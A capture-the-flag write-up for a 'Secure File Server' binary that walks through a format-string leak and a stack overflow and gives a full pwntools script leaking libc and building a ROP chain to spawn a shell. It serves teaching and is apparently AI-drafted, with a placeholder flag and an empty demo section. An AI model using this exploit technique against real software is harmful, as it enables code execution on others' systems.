



# Secure File Server - Writeup

---

## Exploit Demo

This demo illustrates the exploit process:



---

## Binary Inspection

We begin by analyzing the binary for reverse engineering and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable, not stripped.



---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary is protected with:

- Full RELRO
- NX enabled
- PIE enabled
- **No stack canary**



---

## Static Analysis (IDA Pro)

Reversing the binary in IDA Pro reveals two key vulnerabilities that can be chained for exploitation:

### 1. `download_file()` – Format String Vulnerability

```c
printf((const char *)(file_list[v1] + 32LL));
```


- The file content is passed **directly** to `printf()` without a format string, which introduces a **format string vulnerability**.
- This can be used to **leak memory**, such as **libc addresses** or **PIE base**, which bypasses ASLR and PIE protection.

### 2. `edit_file()` – Stack-Based Buffer Overflow

```c
safe_read(&v1, 256LL);
```


- The buffer `v1` is a 4-byte stack variable, but `safe_read()` reads up to **256 bytes**, causing a **classic stack overflow**.
- Since there's **no stack canary**, this allows full **control over the return address**.

Together, these two bugs form a powerful exploitation chain:

- Use `download_file()` to **leak libc and PIE addresses** via the format string bug.
- Then use `edit_file()` to **overwrite the return address** with a ROP chain or jump to a one_gadget in libc.
- The presence of `libc.so.6` (provided in the challenge) makes it possible to calculate offsets and call `system("/bin/sh")`.

---

## How to Solve

1. Use `download_file()` to leak a libc address (e.g., via `%p`, `%s` format string specifiers).
2. Calculate the base address of libc using known offsets.
3. Use `edit_file()` to trigger a stack-based buffer overflow.
4. Overwrite the return address with a ROP chain that calls `system("/bin/sh")`.

---

## Vulnerability Summary

- **Format String** in `download_file()` → leak libc or PIE addresses.
- **Buffer Overflow** in `edit_file()` → hijack control flow.
- **No stack canary** → reliable overflow.
- **PIE + NX + Full RELRO** → mitigations in place, but all bypassable with this bug combo.
- **libc.so.6 provided** → exact offsets known.

---

## Exploit Strategy

1. Upload a file with controlled content.
2. Trigger the format string vuln via `download_file()` to leak libc address.
3. Calculate libc base.
4. Overflow the stack in `edit_file()` and redirect execution to `system("/bin/sh")` using ROP.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# RUNPATH:    b'.'
# Stripped:   No

io = start()

def menu(ch):
    io.recvuntil(b'> ')
    io.sendline(str(ch).encode())

for i in range(4):
    menu(1)
    io.recvuntil(b"Enter file name: ")
    io.sendline(b"%33$p.")
    io.recvuntil(b"Enter file contents: ")
    io.sendline(b"%33$p.")

menu(2)
io.recvuntil(b"Enter file index: ")
io.sendline(b"3")
io.recvuntil(b"Filename: ")
io.recvline()
io.recvuntil(b"Contents: ")


data = io.recvline().strip()
log.info(data)
leak_vals = data.split(b'.')[0].split()
log.info(f"raw leaks: {leak_vals}")
leak = int(leak_vals[0], 16)
log.success(f"Leaked pointer libc: {hex(leak)}")

LIBC_BASE = leak - 0x27769
SYSTEM    = LIBC_BASE + libc.symbols['system']
BINSH     = LIBC_BASE + next(libc.search(b"/bin/sh"))


log.info(f"libc base = {hex(LIBC_BASE)}")
log.info(f"system()  = {hex(SYSTEM)}")
log.info(f"/bin/sh   = {hex(BINSH)}")

rop = ROP(libc)
pop_rdi = LIBC_BASE + rop.find_gadget(['pop rdi', 'ret'])[0]
ret = LIBC_BASE + rop.find_gadget(['ret'])[0]
binsh = LIBC_BASE + next(libc.search(b'/bin/sh'))

offset = 12

payload = flat(
    b'A' * offset,
    p64(pop_rdi),
    p64(binsh),
    p64(ret),
    p64(SYSTEM)
)

menu(3)
io.recvuntil(b"Enter file index: ")
io.sendline(b"0")
io.recvuntil(b"Enter new content: ")
io.sendline(payload)

io.interactive()


```

---

## Result

After successfully exploiting the overflow and executing the ROP chain, the binary executes our controlled payload, potentially revealing the flag or giving shell access.

---

## FLAG

The flag will be displayed in the output after successful execution.

```
RedPointer{example_flag_goes_here}
```

---

Let me know if you want to plug in real screenshots or want help generating the actual exploit!
